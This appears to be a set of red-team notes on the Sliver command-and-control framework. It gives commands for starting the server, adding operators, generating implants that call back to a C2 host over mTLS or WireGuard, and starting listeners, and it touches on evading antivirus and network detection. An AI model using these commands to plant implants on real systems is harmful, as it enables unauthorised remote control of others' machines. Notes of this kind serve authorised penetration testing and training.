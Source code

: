 Sliver C2 is a powerful post-exploitation framework that can be used to establish a firm foothold on a device with an extensible interface that reminds the user of Meterpreter. It is detected out of the box by most AV solutions, as it is very popular, but it can be obfuscated and otherwise made to evade detection. 

Documentation can be found here: https://sliver.sh/docs

# Server
```shell
sliver-server # start the server
```

The server functions as a fully featured point of interaction, and it is not required to use the client at all if no multiplayer is going to be used. However, if multiple operators will need to interact with compromised hosts, multiplayer mode will need to be enabled, and configuration files will need to be generated. 

# Multiplayer

```bash
# on server (if systemd mode)
new-operator --name <operator name> --lhost <server IP> # generate config file for new operator
multiplayer # enable multiplayer mode. Default RPC port is 31337

# on server (if daemon mode)
./sliver-server operator --name <operator name> --lhost <server IP> --save <config name>.cfg # generate config file for new operator
```

Each operator must have the sliver-client binary to connect to the sliver server using a generated configuration file.

```bash
# on client
./sliver-client import ./<config name>.cfg
./sliver-client
```





# Implant Generation
All of the implants generation is taken care of by the `generate` command. Sliver supports HTTP, DNS, WireGuard, TCP, and mTLS callbacks for both sessions and beacons. While these can be used for evasion, mTLS is a safer bet for avoiding NIDS because of its builtin and thorough encryption both directions. 

```bash
generate --mtls <FQDN of C2:port> --os <target operating system> --arch <target CPU architecture> --save <local save location> # generate an mTLS session sliver

generate beacon --wg <FQDN of C2:port> --os <target operating system> --arch <target CPU architecture> # generate a WireGuard beacon sliver
```

Sliver also supports multiple protocols per implant, with it defaulting between them in this order: mTLS -> WireGuard -> HTTP(S) -> DNS.

You must individually start jobs receiving new connections for each protocol

```bash
mtls # start an mTLS listener
dns # start a DNS listener
# etc...
```

# Armory
TODO: Give more details on loading armory modules and how to use them effectively.
